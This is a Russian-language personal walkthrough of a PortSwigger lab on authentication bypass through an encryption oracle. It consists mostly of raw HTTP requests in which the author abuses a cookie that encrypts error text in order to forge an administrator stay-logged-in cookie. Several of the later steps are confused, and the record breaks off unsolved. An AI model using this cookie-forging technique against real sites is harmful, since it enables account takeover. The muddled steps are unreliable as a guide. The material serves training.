








лаба https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-encryption-oracle
#### Authentication bypass via encryption oracle

содержит логическую ошибку, которая предоставляет пользователям оракул шифрования

задание - получить доступ к панели администратора и удалить пользователя `carlos`

---------

прощупал весь функционал сайта

заметил особенность

при авторизации (ввел пароль+логин) 
и есть кнопка - запомнить пароль /да/нет


вот простой запрос  когда кнопка не нажата

заметим это:  stay-logged-in= значения нет

```http
GET /my-account?id=wiener HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=; session=p9c2WmI3uXtcEM7REgyMBeGyGbYimYwS
Cache-Control: max-age=0
Accept-Language: ru-RU,ru;q=0.9
.....
...
..
```


и вот c функцией - которая хранит логин и пароль

stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d;
```http
GET /my-account?id=wiener HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Cache-Control: max-age=0
Accept-Language: ru-RU,ru;q=0.9
```

очевидно, большая вероятность - что это  3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d
логин и пароль там, и ник.

-----

осталось раскодировать это

потом  - наверно - подставить туда админа - и отправить запрос

и если не проверяется это дело - тогда сервер примет 

-----

я уже решал лабы про сериализацию

и вот это 3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d

вот оно же в расшифровке url

3zb/AvviGm2DeAZD+DM29o6W4mQeKk2L9dvZULJTI8Y=

очень напоминает мне просто какой-то обьект сериализованный
и судя по названию лабы - Oracle

-----


не вижу намеков в коде страницы на Oracle

нужно понять - че это такое 
3zb/AvviGm2DeAZD+DM29o6W4mQeKk2L9dvZULJTI8Y=

burp и https://crackstation.net не справились

-----

возможно - это сериализованный обьект Oracle ? но оракл это бд..
возможно этот обьект закодирован для оракл?

---

дипсик подсказал:

>> Судя по длине (ровно 44 символа в конце), это классический **HMAC-SHA256** (или просто SHA256 хеш), закодированный в **Base64**

получается , если это подпись HMAC-SHA256, тогда без пароля хрен я что сделаю.

-------

вот мой запрос - ввод пароля + логин
сервер отвечает мне такой кукой 
stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d



и если с неверными лог+пар - тоже выдает мне такой ключ - то я бы мог собрать пейлоад конечно, зашифровал бы там администратор + неверный шифрованный пароль, и ничего с этим не сделал - НО КАК ВАРИАНТ, ТАК МОЖНО ПРОБОВАТЬ РАСКРУТИТЬ ТОГОДА ДО   RCE  - но лаба про другое

-----

короче - чет я ткплю тут в лабе..

причем тут оракт вообще..?
это бд, язык там sql

----

не могу решить
иду в решение... какой-то тупик...


беру запрос на оставление коммента c некорректным почт адрессом 35grgf3f3
сайт не отправил такой коммент и дал мне ошибку nvalid email address: 35grgf3f3
```http
POST /post/comment HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLRWdzNotJgoS7hMzke1F%2b0%2bd8dmOJt50k1d2PT1ZvvTNPsjwKdZ%2bEO8NiWjECgvT1RE9njOEX93jwqja8ZjtTtQ%3d; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Content-Length: 98
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=jByYCuI4ysbmZLYKC1zNsHcoqPtvJsIQ&postId=5&comment=etgtg&name=etgetrg&email=35grgf3f3&website=
```


вот второй запрос который показывает этот пост где я пытался оставить коммент

```http
GET /post?postId=5 HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLYSwpchmuNAVDELW5cCsfn6VRaZIs4FV1QEbyWCjmD67; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Cache-Control: max-age=0
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ну обновил страницу можно сказать, ничего не поменялось - по прежнему висит ошибка                        Invalid email address: 35grgf3f3 
ничего удивительного нет

---


в решении сказано - типо 
вот эта моя кука 
w65upjVIBSca%2bBmvp6vLLYSwpchmuNAVDELW5cCsfn6VRaZIs4FV1QEbyWCjmD67

расшифровывается в 35grgf3f3

и в ошибке этой     Invalid email address: 35grgf3f3 
показывается как раз эта кука
w65upjVIBSca%2bBmvp6vLLYSwpchmuNAVDELW5cCsfn6VRaZIs4FV1QEbyWCjmD67

----

тогда я могу подставить туда это
3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d

и посмотреть расшифровку?

да - получилось расшифровать это дело...
я вижу в ошибке теперь                    wiener:1772212957892   



---

получается - что я могу оставляя в поле неверного емайл текст- шифровать его
и потом вторым запросом расшифровывать....
невероятно... сам я бы сутки наверно додумывался до этого, потому что это, абсолютно нелогично , вот зачем шифровать так email ?

---

короче :

беру                    wiener:1772212957892 
меняю:                      administrator:1772212957892 
отправляю это дело как коммент

беру теперь эту куку -   
w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395eODNVHgFBdA46SvXIZszFQ%3d%3d

я так понял в ней зашифровано это administrator:1772212957892 

и подставляю это при входе в акк 


вот запрос в аккаунт
подставил куку и administrator
```http
GET /my-account?id=administrator HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395eODNVHgFBdA46SvXIZszFQ%3d%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

ответ 302 
```http
HTTP/2 302 Found
Location: /login
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

пробую тогда 
```http
GET /admin HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=w65upjVIBSca%2bBmvp6vLLQDNx10mB%2fMq5aU5gk%2fyGK4sPd%2b0KOoPWIa9XZtAH395eODNVHgFBdA46SvXIZszFQ%3d%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
ответ     Admin interface only available if logged in as an administrator

-----

## короче - я пошел детально читать описание лабы...

## ❌ ВНИМАНИЕ ❌

## если кто-то это читает... вдруг
то лучше перейти ниже к решению и не читать муки мои, что ниже

правильное решение идет от вот таких звездочек ⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️⭐️ которые будут ниже


----
шаг 1

отправил коммент с  xxxxxxxxxadministrator:1772212957892
че за хххх? 
отому что длина префикса `"Invalid email address: "` — 23 байта. Чтобы общая длина (23 + X) была кратна 16, нужно добавить 9 символов (23 + 9 = 32, ровно 2 блока).
Invalid email address: эта часть тоже попадет в ответ с ошибкой и шифруется - нужно избавиться от нее
```http
POST /post/comment HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: notification=w65upjVIBSca%2bBmvp6vLLYSwpchmuNAVDELW5cCsfn6VRaZIs4FV1QEbyWCjmD67; stay-logged-in=3zb%2fAvviGm2DeAZD%2bDM29o6W4mQeKk2L9dvZULJTI8Y%3d; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Content-Length: 115
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=jByYCuI4ysbmZLYKC1zNsHcoqPtvJsIQ&postId=5&comment=3455&name=rter&email=xxxxxxxxxadministrator:1772212957892&website=
```

получил ответ
```http
HTTP/2 302 Found
Location: /post?postId=5
Set-Cookie: notification=w65upjVIBSca%2bBmvp6vLLUBtpqF87Qgqp54%2btySz5Pza9nemx4B4ajPi48iX%2fd7xwoNsB%2fthwnEIJk%2bz16s%2fTg%3d%3d; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0


---
в декодир виде
w65upjVIBSca Bmvp6vLLUBtpqF87Qgqp54 tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk z16s/Tg==

нужно типо удалить первые 32 байта 
```


шаг 2

берум строку 
w65upjVIBSca Bmvp6vLLUBtpqF87Qgqp54 tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk z16s/Tg==

и переводим в hex формат
и нужно удалить первый 32 пары чисел - то есть первые 32 байта
то есть удалить шляпу  `"Invalid email address: "`
у меня это первые две строки




после удаления 32 байтов осталось вот это 
p54tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJkz16s/Tg==


кодирую ее в URL кодировке

%70%35%34%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%7A%31%36%73%2F%54%67%3D%3D

и теперь можно подставлять 


-----

подставляю сюда
запрос

```http
GET /admin HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=%70%35%34%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%7A%31%36%73%2F%54%67%3D%3D; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
ответ
                   Admin interface only available if logged in as an administrator

-----

делаю запрос 
```http
GET /my-account?id=wiener HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=%70%35%34%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%7A%31%36%73%2F%54%67%3D%3D; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ответ - обыный мой профиль

------


делаю запрос 
```http
GET /my-account?id=administrator HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=%70%35%34%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%7A%31%36%73%2F%54%67%3D%3D; session=UlYNqXkgBxtoSMoSpmw2DlzcTFsooGtH
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad100be04ea5441832a558400ef0030.web-security-academy.net/post?postId=5
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

ответ 
```
HTTP/2 302 Found
Location: /login
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

пробовал так GET /my-account HTTP/2
тоже обычный акк


------

я там выше удалял пробелы вручную из строки этой 
p54 tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk z16s/Tg==

не нужно удалять
просто кодирую UR

%70%35%34%20%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%20%7A%31%36%73%2F%54%67%3D%3D

подставил - не работает..

------

w65upjVIBSca%2bBmvp6vLLUBtpqF87Qgqp54%2btySz5Pza9nemx4B4ajPi48iX%2fd7xwoNsB%2fthwnEIJk%2bz16s%2fTg%3d%3d


p54 tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk z16s/Tg==

кодирую в base64

cDU0IHR5U3o1UHphOW5lbXg0QjRhalBpNDhpWC9kN3h3b05zQi90aHduRUlKayB6MTZzL1RnPT0=

все равно не работает

cDU0IHR5U3o1UHphOW5lbXg0QjRhalBpNDhpWC9kN3h3b05zQi90aHduRUlKayB6MTZzL1RnPT0=


кодирую в url

%63%44%55%30%49%48%52%35%55%33%6F%31%55%48%70%68%4F%57%35%6C%62%58%67%30%51%6A%52%68%61%6C%42%70%4E%44%68%70%57%43%39%6B%4E%33%68%33%62%30%35%7A%51%69%39%30%61%48%64%75%52%55%6C%4B%61%79%42%36%4D%54%5A%7A%4C%31%52%6E%50%54%30%3D

снова ничего!

-------

оригинал полученный в куке 

w65upjVIBSca Bmvp6vLLUBtpqF87Qgqp54 tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk z16s/Tg==

обрезал первые 32 байта через hex

p54 tySz5Pza9nemx4B4ajPi48iX/d7xwoNsB/thwnEIJk z16s/Tg==


кодировал url

%70%35%34%20%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%20%7A%31%36%73%2F%54%67%3D%3D

запрос 
```http
GET /admin HTTP/2
Host: 0ad100be04ea5441832a558400ef0030.web-security-academy.net
Cookie: stay-logged-in=%70%35%34%20%74%79%53%7A%35%50%7A%61%39%6E%65%6D%78%34%42%34%61%6A%50%69%34%38%69%58%2F%64%37%78%77%6F%4E%73%42%2F%74%68%77%6E%45%49%4A%6B%20%7A%31%36%73%2F%54%67%3D%3D; session=
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
